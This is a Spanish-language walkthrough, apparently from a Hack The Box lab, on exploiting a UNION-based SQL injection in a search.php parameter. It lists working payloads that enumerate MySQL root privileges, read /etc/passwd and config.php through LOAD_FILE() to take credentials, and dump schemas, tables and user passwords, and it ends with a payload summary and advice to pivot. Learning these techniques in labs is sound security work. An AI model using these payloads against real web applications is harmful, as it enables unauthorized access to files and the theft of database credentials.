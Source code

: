 # Guía práctica: SQL Injection para enumeración y lectura de archivos (HTB)

##  Introducción

Esta guía documenta el proceso de explotación de una **inyección SQL** ([[SQLi]]) para:

- Confirmar la vulnerabilidad.
- Enumerar permisos del usuario `root` en MySQL.
- Leer archivos del sistema como `/etc/passwd`, `search.php` y `config.php`.
- Encontrar credenciales sensibles.

Todas las pruebas se realizaron en la URL:

```

[http://83.136.255.10:58278/search.php?port_code=](http://83.136.255.10:58278/search.php?port_code=)

````

---

## 1. Confirmación de la vulnerabilidad

**Acción:**

Comprobamos que el parámetro `port_code` es vulnerable inyectando un [[UNION SELECT]].

```sql
' UNION SELECT 1,2,3,4-- -
````

**Explicación:**

Si la inyección tiene éxito, la página mostrará los valores `2`, `3` y `4` en la tabla. Esto confirma que:

- La aplicación concatena directamente el valor en una consulta SQL.
    
- El número de columnas es 4.
    
- Podemos continuar con otras inyecciones más complejas.
    

---

## 2. Comprobar privilegios del usuario `root` en MySQL

### 2.1. Comprobar si tiene el privilegio `SUPER`

```sql
' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

**Explicación:**

- `super_priv` = 'Y' indica que el usuario puede realizar acciones avanzadas en MySQL.
    
- Esto puede incluir cargar archivos o modificar configuraciones.
    

---

### 2.2. Enumerar todos los privilegios de `root@localhost`

```sql
' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

**Explicación:**

Esta consulta muestra todos los privilegios otorgados explícitamente a `root@localhost`, por ejemplo:

```
SELECT, INSERT, UPDATE, FILE, CREATE
```

Si el usuario tiene `FILE`, puedes leer archivos con `LOAD_FILE()`.

---

## 3. Leer archivos del sistema con `LOAD_FILE()`

### 3.1. Leer `/etc/passwd`

```sql
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

**Explicación:**

Nos permite confirmar acceso al sistema de archivos. Muestra usuarios del sistema Linux.

---

### 3.2. Leer el archivo fuente `search.php`

```sql
' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

**Explicación:**

Este archivo es la propia aplicación vulnerable. Puede revelar:

- Cómo se construye la query SQL.
    
- Si hay includes/requires a otros archivos.
    

---

### 3.3. Leer `config.php` para obtener credenciales

```sql
' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

**Explicación:**

Este archivo suele contener las **credenciales de conexión a MySQL**, como:

```php
$db_user = "root";
$db_pass = "toor123";
```

Esto te permite conectarte directamente a la base de datos desde consola o herramientas como `sqlmap`.

---

## Otras queries útiles para SQLi (bonus)

### Obtener versión de MySQL

```sql
' UNION SELECT 1, @@version, 3, 4-- -
```

### Listar todas las bases de datos

```sql
' UNION SELECT 1, schema_name, 3, 4 FROM information_schema.schemata-- -
```

### Listar tablas de una base de datos

```sql
' UNION SELECT 1, table_name, 3, 4 FROM information_schema.tables WHERE table_schema='nombre_base_datos'-- -
```

### Listar columnas de una tabla

```sql
' UNION SELECT 1, column_name, 3, 4 FROM information_schema.columns WHERE table_name='nombre_tabla'-- -
```

### Extraer usuarios de una tabla `users`

```sql
' UNION SELECT 1, username, password, 4 FROM users-- -
```

---

## Resumen de payloads usados

```sql
1. ' UNION SELECT 1,2,3,4-- -
2. ' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
3. ' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
4. ' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
5. ' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
6. ' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

---

## Conclusión

Este tipo de explotación SQLi permite:

- Confirmar la vulnerabilidad.
    
- Enumerar privilegios y configuraciones internas.
    
- Robar archivos del sistema.
    
- Escalar a control completo de la base de datos.
    

Una vez que obtienes credenciales, puedes avanzar hacia una **conexión directa**, pivotar o buscar vulnerabilidades adicionales.

---
